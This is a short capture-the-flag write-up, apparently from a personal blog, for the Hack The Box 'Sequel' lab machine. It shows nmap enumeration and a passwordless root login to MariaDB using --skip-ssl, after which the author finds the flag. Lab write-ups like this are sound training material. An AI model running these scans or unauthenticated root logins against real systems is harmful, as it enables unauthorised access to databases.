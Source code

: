 ```yaml
---
layout: post
title: sequel
categories: htb
tags:
- htb
- starting_point
- sequel
author: nicoliboli
description: starting point | tier 1 | box 1
date: '2025-06-28 21:03:37 -0400'
---
```

# enumeration

```
$ nmap 10.129.95.232             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-28 20:48 EDT
Nmap scan report for 10.129.95.232
Host is up (0.098s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 13.57 seconds

$ nmap -sC -sV -p 3306 10.129.95.232
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-28 20:48 EDT
Nmap scan report for 10.129.95.232
Host is up (0.10s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 69
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolNew, DontAllowDatabaseTableColumn, Support41Auth, SupportsCompression, SupportsLoadDataLocal, SupportsTransactions, ConnectWithDatabase, FoundRows, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, InteractiveClient, ODBCClient, LongColumnFlag, Speaks41ProtocolOld, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: F3i;)Zh~`ExNYX.y:Stm
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 206.28 seconds
```

## port 3306 - mysql

tried to log in as the `root` user and get the following error

```
$ mysql -h 10.129.95.232 -u root        
ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it
```

looked at the `man` page and found that ssl is enabled by default

![sequel_man](/assets/img/sequel_man.png)

try to connect again with the `--skip-ssl` flag and get a login

```
$ mysql -h 10.129.95.232 -u root --skip-ssl
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 79
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

# exploitation

after enumerating the databases and tables, i found the flag

![sequel_flag](/assets/img/sequel_flag.png)
